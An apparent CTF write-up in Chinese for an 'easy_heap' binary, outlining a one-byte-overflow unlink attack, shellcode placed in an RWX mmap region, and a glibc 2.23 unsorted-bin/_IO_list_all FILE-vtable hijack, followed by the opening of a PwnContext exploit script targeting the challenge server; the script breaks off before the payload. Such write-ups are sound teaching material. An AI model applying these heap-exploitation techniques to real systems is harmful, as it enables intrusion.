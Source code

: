 ```c
    dst[i] = 0;
  return __readfsqword(0x28u) ^ v5;
}
```



结合程序本身，只有程序基地址的泄露，以及mmap分配的可读/写/执行段的地址，没有libc或者堆栈地址。由此大致可猜测这个是需要最终执行shellcode的。

首先可以使用一字节溢出进行unlink攻击，由此获取任意写的能力，将shellcode写入mmap段，然后就需要考虑如何劫持控制流。

由于给的libc是2.23版本，该版本是没有对_IO_File结构体的vtable进行检查的，所以这个可以通过篡改unsorted bin的bk指针至_IO_list_all-0x10处，导致_IO_list_all被篡改，最终进行一个经典的文件结构体伪造，vtable即指向我们可控的程序段，里面则写上mmap段地址，当出现堆错误打印信息时，即可触发。

```python
from PwnContext import *
if __name__ == '__main__':
    context.terminal = ['tmux', 'split', '-h']
    context.log_level = 'debug'
    #-----function for quick script-----#
    s       = lambda data               :ctx.send(str(data))        #in case that data is a int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    st      = lambda delim,data         :ctx.sendthen(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data))
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    leak    = lambda address, count=0   :ctx.leak(address, count)
    
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    
    ctx.binary = './easy_heap'
    ctx.remote = ('132.232.100.67', 10004)
    
    ctx.custom_lib_dir = '/root/share/project/glibc-all-in-one/libs/2.23-0ubuntu11_amd64'
    #ctx.remote_libc = './libc.so.6'
    ctx.debug_remote_libc = True
    
    ctx.symbols = {
        'lst':0x202060,
        'cnt':0x202040,
    }
    def add(size):
        sl(1)
        sla('Size', size)
        ru('Address ')
        addr = int(ru('\n'), 16)
        return addr
        
    def free(idx):
        sl(2)
        sla('Index', idx)
        
    def fill(idx, content):
        sl(3)
        sla('Index', idx)
        sa('Content', content)
        
    
    while True:
        try:
            rs('remote')
```